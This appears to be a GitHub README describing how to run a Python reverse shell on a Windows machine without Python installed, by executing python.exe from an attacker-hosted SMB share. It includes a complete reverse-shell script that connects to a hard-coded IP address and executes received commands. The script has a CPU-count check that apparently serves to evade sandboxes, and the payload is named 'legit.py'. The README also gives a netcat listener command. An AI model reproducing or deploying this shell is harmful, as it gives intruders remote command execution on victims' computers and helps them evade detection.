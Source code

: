 # Eazee-As-Py
## Execute Python Reverse Shells on Windows Hosts without Python Installed 😎

I spent the whole morning working out how I can execute Python on a Windows Host that doesnt have Python Installed.

There is no documentation I have found online on how to do this so I am taking all the credit 💪🏼

Im assuming the possibilites are endless with this but I only wanted to see if I could execute Reverse Shells.

Not exactly ground breaking research just a lot of trial and error. 

## How to do it

* Have a Windows Attack Machine alongside Kali (you could do all this on windows btw, just install ncat https://nmap.org/download ) 🐱
* Download and install Python on Windows Attack Machine, ensure to tick add PYTHON to PATH on install 🐍
* Navigate to Install Folder - Mine is C:\Users\<USERNAME>\AppData\Local\Programs\Python\Python310
* Right click on Python310 Folder and Share it
* Go on advanced Sharng and give it a share name, I kept it as Python310
![image](https://user-images.githubusercontent.com/130473605/234895545-22794caf-0b53-4578-8d0e-c3452209c29f.png)
* Get a Windows Specific Python Reverse Shell, most of what I found on GitHub was the Client/Server.py files but they should be good or use this.
```python
import os
import socket
import subprocess


if os.cpu_count() <= 2:
    quit()

HOST = '192.168.0.169'
PORT = 4445

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))


while 1:
    try:
        s.send(str.encode(os.getcwd() + "> "))
        data = s.recv(1024).decode("UTF-8")
        data = data.strip('\n')
        if data == "quit": 
            break
        if data[:2] == "cd":
            os.chdir(data[3:])
        if len(data) > 0:
            proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
            stdout_value = proc.stdout.read() + proc.stderr.read()
            output_str = str(stdout_value, "UTF-8")
            s.send(str.encode("\n" + output_str))
    except Exception as e:
        continue
    
s.close()
```

* Save it in the same Folder - I named it legit.py

![image](https://user-images.githubusercontent.com/130473605/234902955-91f4113a-85ca-41ec-a134-d76242612491.png)

* Setup nc to catch shell on Kali `nc -lvnp <port>`
* On Windows Host in CMD point to python.exe on remote share and pass it the reverse shell name also hosted on remote share

![image](https://user-images.githubusercontent.com/130473605/234904613-8f8f530f-1568-4ff1-b614-f1dd55423beb.png)

* Enjoy your Python Reverse Shell from a Windows Host that doesnt have Python installed

![image](https://user-images.githubusercontent.com/130473605/234906073-576c9241-4c1f-4296-8fd0-6b1e233baf92.png)




